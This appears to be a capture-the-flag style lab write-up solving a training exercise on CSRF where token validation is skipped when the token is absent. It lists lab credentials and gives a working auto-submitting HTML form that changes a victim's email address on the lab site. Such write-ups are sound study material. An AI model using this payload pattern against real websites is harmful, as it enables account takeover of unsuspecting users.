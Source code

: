 # CSRF where token validation depends on token being present
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token website might not handle correctly the change email request without any token.

|![](Images/image-4.png)|
|:--:| 
| *Test of change email functionality* |

## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request to `/my-account/change-email` without any `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="https://0aab008f040c98bd866f2a0b005800a5.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-5.png)|
|:--:| 
| *Exploit server configuration* |

